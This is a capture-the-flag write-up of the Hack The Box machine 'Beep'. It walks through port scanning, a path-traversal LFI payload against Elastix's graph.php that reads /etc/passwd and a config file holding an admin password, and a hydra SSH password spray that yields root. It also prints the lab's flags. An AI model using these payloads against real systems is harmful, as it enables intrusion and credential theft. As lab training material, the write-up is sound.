



+++
title = "Beep"
date = "2023-12-29"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2017-03-15

**Created by**: [ch4p](https://app.hackthebox.com/users/1)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.10`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.7`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Beep using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.7" -p-
```

```
<SNIP>
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
794/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.7" --top-ports "500"
```

```
<SNIP>
PORT      STATE         SERVICE
69/udp    open|filtered tftp
111/udp   open          rpcbind
123/udp   open          ntp
5000/udp  open|filtered upnp
5060/udp  open|filtered sip
10000/udp open          ndmp
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.7" -p "22,25,80,110,111,143,443,993,995,3306,4190,4445,4559,10000" -sV
```

```
<SNIP>
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
<SNIP>
```

Let's do the same for the UDP ports.

```sh
❯ nmap -sU "10.10.10.7" -p "69,111,123,5000,5060,10000" -sV
```

```
<SNIP>
PORT      STATE         SERVICE VERSION
69/udp    open          tftp    Netkit tftpd or atftpd
111/udp   open          rpcbind 2 (RPC #100000)
123/udp   open          ntp     NTP v4 (secondary server)
5000/udp  open|filtered upnp
5060/udp  open|filtered sip
10000/udp open          webmin  (https on TCP port 10000)
<SNIP>
```

Alright, so `nmap` managed to determine that Beep is running Linux, and the
version of Apache suggests that it might be CentOS. `nmap` also found that
Beep's hostname is `beep.localdomain`.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.7" -p "22,25,80,110,111,143,443,993,995,3306,4190,4445,4559,10000" -sC
```

```
<SNIP>
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3
|_pop3-capabilities: STLS UIDL LOGIN-DELAY(0) APOP PIPELINING USER IMPLEMENTATION(Cyrus POP3 server v2) RESP-CODES TOP EXPIRE(NEVER) AUTH-RESP-CODE
111/tcp   open  rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            791/udp   status
|_  100024  1            794/tcp   status
143/tcp   open  imap
|_imap-capabilities: IMAP4rev1 Completed RIGHTS=kxte MAILBOX-REFERRALS OK ACL LISTEXT URLAUTHA0001 NO SORT ID UIDPLUS THREAD=ORDEREDSUBJECT THREAD=REFERENCES BINARY MULTIAPPEND IMAP4 UNSELECT ANNOTATEMORE CONDSTORE SORT=MODSEQ IDLE LIST-SUBSCRIBED ATOMIC CHILDREN STARTTLS CATENATE NAMESPACE X-NETSCAPE QUOTA LITERAL+ RENAME
443/tcp   open  https
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
| http-robots.txt: 1 disallowed entry 
|_/
|_ssl-date: 2024-03-02T16:48:22+00:00; +5s from scanner time.
993/tcp   open  imaps
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
10000/tcp open  snet-sensor-mgmt
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
|_ssl-date: 2024-03-02T16:49:35+00:00; +5s from scanner time.
| ssl-cert: Subject: commonName=*/organizationName=Webmin Webserver on localhost.localdomain
| Not valid before: 2017-04-07T08:24:46
|_Not valid after:  2022-04-06T08:24:46

Host script results:
|_clock-skew: mean: 4s, deviation: 0s, median: 4s
<SNIP>
```

Let's also run them on the UDP services.

```sh
❯ nmap -sU "10.10.10.7" -p "69,111,123,5000,5060,10000" -sC
```

```
<SNIP>
PORT      STATE         SERVICE
69/udp    open          tftp
111/udp   open          rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            791/udp   status
|_  100024  1            794/tcp   status
123/udp   open          ntp
| ntp-info: 
|_  
5000/udp  open|filtered upnp
5060/udp  open          sip
|_sip-methods: INVITE, ACK, CANCEL, OPTIONS, BYE, REFER, SUBSCRIBE, NOTIFY, INFO, PUBLISH
10000/udp open          ndmp

Host script results:
|_clock-skew: 12s
<SNIP>
```

The `http-title` script indicates that the HTTP website redirects to HTTPS.

## Services enumeration

### Elastix

#### Exploration

Let's browse to `https://10.10.10.7/`.


We're served an Elastix login form. If we search online, we find:

> Elastix is a unified communications server software that brings together IP
> PBX, email, IM, faxing and collaboration functionality. It has a Web interface
> and includes capabilities such as a call center software with predictive
> dialing.
>
> — [Wikipedia](https://en.wikipedia.org/wiki/Elastix)

So this is why Beep has open ports like SMTP, POP3 and IMAP!

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



This reveals that this web page is using PHP version `5.1.6`.

#### Exploration

We need to authenticate to access functionalities.

If we search online for Elastix's default credentials, we don't find any.

What about common credentials then? I launched a Cluster bomb attack on Burp
Suite using
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
for the usernames and
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-passwords-shortlist.txt)
for the passwords. Unfortunately, they all failed.

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for `Elastix`, we find
several results. Since we don't known the version of Elastix running on Beep,
we'll have to try them all.

It turns out that
[Elastix 2.2.0 - 'graph.php' Local File Inclusion](https://www.exploit-db.com/exploits/37637)
does work.

#### LFI

Elastix version `2.2.0` is prone to a LFI vulnerability because it fails to
properly sanitize user-supplied input. The issue lies specifically in the
`graph.php` page: if an attacker specifies a specially crafted value to the
`current_language` HTTP parameter, he can read any local file.

Let's try to use the LFI to read the file `/etc/hosts`, by following the PoC:

```sh
❯ curl -s -k "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/hosts%00&module=Accounts&action"
```

```
# Do not remove the following line, or various programs
# that require network functionality will fail.
127.0.0.1       localhost       beep localhost.localdomain localhost
::1             localhost6.localdomain6 localhost6
Sorry! Attempt to access restricted file.
```

It works!

The PoC suggests to include `/etc/amportal.conf`, the config file for FreePBX, a
web-based graphical user interface for Asterisk (which is part of Elastix)
responsible for handling the configuration and management of Asterisk. This is
probably the technology behind the login page we encountered on the homepage!

```sh
❯ curl -s -k "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action"
```

```
<SNIP>
# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin

# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
<SNIP>
```

There's a lot of output, but I immediately noticed potential credentials.

#### Exploration

Back to Elastix's login page, let's try to log in with the
`admin`:`jEhdIekWmdjE` credentials.



They worked!

I searched for functionalities that would give me RCE, but I found none. Back to
known vulnerabilities, none of them are affecting Elastix neither...

## Foothold (SSH)

### LFI

Let's use our LFI to get a list of Beep's local users:

```sh
❯ curl -s -k "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action" | grep ".*sh$" | cut -d ":" -f "1" | sort
```

```
asterisk
cyrus
fanis
mysql
root
spamfilter
```

I'll save these usernames in a `users` file.

### Password spraying

Let's try the password we discovered previously for each of these users to log
in over SSH. It would be pretty quick to do it by hand, but let's get fancy and
use `hydra` instead.

```sh
❯ hydra -L "/workspace/users" -p "jEhdIekWmdjE" "10.10.10.7" "ssh"
```

```
<SNIP>
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
<SNIP>
```

This password is valid for `root`!

I'll connect to Beep over SSH as this user to get a shell.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `root` (obviously).

I could just retrieve the flags and call it a day, but for good measure I'll
still enumerate basic information.

### Architecture

What is Beep's architecture?

```sh
[root@beep ~]# uname -m
```

```
i686
```

It's using i686. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Beep is using.

```sh
[root@beep ~]# cat "/etc/redhat-release"
```

```
CentOS release 5.6 (Final)
```

Okay, so it's CentOS 5.6.

### Kernel

Let's find the kernel version of Beep.

```sh
[root@beep ~]# uname -r
```

```
2.6.18-238.12.1.el5
```

It's `2.6.18`.

### Users

Let's enumerate all users.

```sh
[root@beep ~]# grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
cyrus
fanis
mysql
root
spamfilter
```

There's a few of them, but only `cyrus`, `fanis` and `root` look like real
users.

### Groups

Let's enumerate all groups.

```sh
[root@beep ~]# cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
apache
asterisk
audio
bin
daemon
dbus
dip
disk
distcache
fanis
floppy
ftp
games
gopher
haldaemon
kmem
lock
lp
mail
mailman
man
mem
mysql
news
nfsnobody
nobody
ntp
pcap
postdrop
postfix
root
rpc
rpcuser
saslauth
spamfilter
sshd
sys
tty
users
utempter
utmp
uucp
vcsa
wheel
xfs
```

### NICs

Let's gather the list of connected NICs.

```sh
[root@beep ~]# ifconfig
```

```
eth0      Link encap:Ethernet  HWaddr 00:50:56:B9:42:F0  
          inet addr:10.10.10.7  Bcast:10.10.10.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:76670 errors:0 dropped:0 overruns:0 frame:0
          TX packets:74375 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:5492526 (5.2 MiB)  TX bytes:7155123 (6.8 MiB)
          Interrupt:59 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:1652 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1652 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:139197 (135.9 KiB)  TX bytes:139197 (135.9 KiB)
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Beep's hostname?

```sh
[root@beep ~]# hostname
```

```
beep
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check `fanis`'s home folder, we find the user flag.

```sh
[root@beep ~]# cat "/home/fanis/user.txt"
```

```
73d602d78b2a3ad594ad634f4f6f1fd5
```

And as usual, we can find the root flag in our home folder.

```sh
[root@beep ~]# cat "/root/root.txt"
```

```
e6444d9d4d815cf42976aa5480e820e3
```

# Afterwords



That's it for this box! 🎉

I rated the user flag as 'Not too easy' and the root flag as 'Piece of cake'.
Since the website didn't disclose the version of Elastix in use, I had to try a
few exploits before finding a valid one, so it was not that straightforward.
Furthermore, it was a LFI and not a RCE, so I had to read a specific file to get
credentials (luckily the same file as in the PoC), and then use them to connect
to Beep over SSH. Conversely, the privilege escalation was a piece of cake,
since we actually directly got a shell as `root`.

Thanks for reading!
